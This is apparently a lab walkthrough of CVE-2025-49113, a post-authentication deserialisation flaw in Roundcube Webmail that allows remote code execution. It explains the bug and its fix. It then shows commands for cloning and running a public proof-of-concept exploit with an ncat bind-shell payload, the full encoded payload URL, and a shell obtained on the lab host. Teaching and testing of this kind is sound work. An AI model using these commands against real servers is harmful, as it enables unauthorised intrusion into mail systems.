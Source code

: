 <h1 align="center">Roundcube: CVE-2025-49113</h1>

## About RoundCube
Roudcube is a free and open-source webmail project. It is very feature-rich and available in over eighty languages. Although its built-in features are rich, they can be further expanded through the support of third-party plug-ins.

It mainly requires a web server with PHP support and an SQL server to run. Apache, Nginx, and Lighttpd, among others, can easily satisfy the web server requirements; MySQL, MariaDB, PostgreSQL, SQLite, and many others can satisfy the database requirements. This versatility makes Roundcube a very popular choice for webmail, especially among hosting providers.

Recently, a vulnerability was discovered in Roundcube Webmail; it affects all versions 1.5.x and 1.6.x before 1.5.10 and 1.6.11. This vulnerability allows remote code execution (RCE) by authenticated users; in other words, valid credentials for the webmail are enough for the attacker to execute commands on the host system. This vulnerability has a CVSS 3.x severity score of 9.9, i.e., critical. Roundcube has already released versions 1.5.10 and 1.6.11 and strongly recommends updating.

This room will cover what makes this vulnerability possible and demonstrate exploitation in a lab environment.

---

## Technical Background
> Serialisation is the process of converting an object, i.e., a class instance in PHP, Java, or Python, into a storable or transmittable format. This process is commonly used for storing objects in files or databases and for sending objects across the network, such as in APIs or cookies.

A deserialisation vulnerability is a security flaw that occurs when an application deserialises untrusted or tampered data. Deserialisation is the process of converting data from a serialised format, such as a byte stream or a string, back into a program object. If this process is done insecurely, an attacker can manipulate the serialised data to execute arbitrary code or even escalate privileges, among other malicious actions.

Kirill Firsov discovered a deserialisation vulnerability in Roundcube Webmail. They shared on their website the line of thought and research that led to discovery; it is an interesting read. The vulnerability is caused by the _from property in the upload.php not being thoroughly checked for safe values before deserialisation.

This vulnerability can be inferred in the commits for version 1.5.10 and for version 1.6.11. Even if you are not familiar with PHP, checking the commit lines and the comments will give you a good idea about how this vulnerability was fixed. In the screenshot below, you can easily infer that the additional lines now check if the URL parameter _from contains any unsafe characters.

![upload.php](https://github.com/user-attachments/assets/e45509eb-4be5-4043-93a5-8b28c2cbb225)

This vulnerability allows remote code execution via its insecure deserialisation. The attacker still needs to craft a payload so that its deserialisation leads to the desired outcome.

---

### Exploit Code
A proof of concept (PoC) exploit code is published by FearsOff on their GitHub repository. The easiest way to follow along would be to download the exploit code using git clone https://github.com/fearsoff-org/CVE-2025-49113. This is shown in the terminal below.

AttackBox Terminal
```
root@attackbox:~# git clone https://github.com/fearsoff-org/CVE-2025-49113
Cloning into 'CVE-2025-49113'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 8 (delta 1), reused 8 (delta 1), pack-reused 0 (from 0)
Unpacking objects: 100% (8/8), 7.31 KiB | 1.83 MiB/s, done.
root@attackbox:~# cd CVE-2025-49113/
root@attackbox:~/CVE-2025-49113# ls
CVE-2025-49113.php  rc_install.sh  README.md
```
Note: The CVE-2025-49113.php is the PoC exploit. If you are a free user, the AttackBox does not have Internet access, and you need to use another means to get the above file into the AttackBox. One easy way would be to copy the file from its GitHub page, create a new file on the AttackBox using your preferred text editor, and save it with the extension .php.

The CVE-2025-49113.php executes the necessary steps to get the payload of your choice executed on the target server. After retrieving a CSRF token and a session cookie, this PoC PHP script logs in using the provided username and password. The core steps of this script lie in the following:

Craft a malicious serialised PHP object
Embed the crafted object in the _from parameter
Send a POST request to the upload.php endpoint using the malicious _from parameter
The received malicious parameter will be deserialised and executed on the server side.

Executing the Exploit
To run the PoC code, the following arguments need to be used: php CVE-2025-49113.php target_url username password command.

The target_url should be replaced by Roundcube Webmail’s URL, i.e., http://MACHINE_IP/roundcube
The username and password are the valid credentials to access the webmail
The command is the “payload” that you want to be executed on the target server
Let’s use ncat -lvnp 4444 -e /bin/bash to set a bind shell; this will make it easier to demonstrate the exploit and test whether it executed successfully. An example is shown in the terminal below.

AttackBox Terminal
```
root@attackbox:~/CVE-2025-49113# php CVE-2025-49113.php http://MACHINE_IP/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
### Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]

### Retrieving CSRF token and session cookie...

### Authenticating user: ellieptic

### Authentication successful

### Command to be executed: 
ncat -lvnp 4444 -e /bin/bash

### Injecting payload...

### End payload: http://MACHINE_IP/roundcube/?_from=edit-%21%C3%22%C3%3B%C3i%C3%3A%C30%C3%3B%C3O%C3%3A%C31%C36%C3%3A%C3%22%C3C%C3r%C3y%C3p%C3t%C3_%C3G%C3P%C3G%C3_%C3E%C3n%C3g%C3i%C3n%C3e%C3%22%C3%3A%C31%C3%3A%C3%7B%C3S%C3%3A%C32%C36%C3%3A%C3%22%C3%5C%C30%C30%C3C%C3r%C3y%C3p%C3t%C3_%C3G%C3P%C3G%C3_%C3E%C3n%C3g%C3i%C3n%C3e%C3%5C%C30%C30%C3_%C3g%C3p%C3g%C3c%C3o%C3n%C3f%C3%22%C3%3B%C3S%C3%3A%C33%C30%C3%3A%C3%22%C3n%C3c%C3a%C3t%C3+%C3-%C3l%C3v%C3n%C3p%C3+%C34%C34%C34%C34%C3+%C3-%C3e%C3+%C3%2F%C3b%C3i%C3n%C3%2F%C3b%C3a%C3s%C3h%C3%3B%C3%23%C3%22%C3%3B%C3%7D%C3i%C3%3A%C30%C3%3B%C3b%C3%3A%C30%C3%3B%C3%7D%C3%22%C3%3B%C3%7D%C3%7D%C3&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload

### Payload injected successfully

### Executing payload...
```
It is worth mentioning that the exploit may take a minute or two to respond and sometimes the script gives an error message despite the payload successfully executing on the target. In one attempt, we got the following error message; however, the bind shell was set up successfully, and we could connect to it from the AttackBox.

AttackBox Terminal
```
PHP Warning:  file_get_contents(http://MACHINE_IP/roundcube/): failed to open stream: HTTP request failed! in /root/CVE-2025-49113/CVE-2025-49113.php on line 240
### Error: CSRF token not found in response body
```
On the AttackBox, you must connect to the bind shell listening on port 4444.

AttackBox Terminal
```
root@attackbox:~# nc MACHINE_IP 4444
pwd
/var/www/html/roundcube
whoami
www-data
```







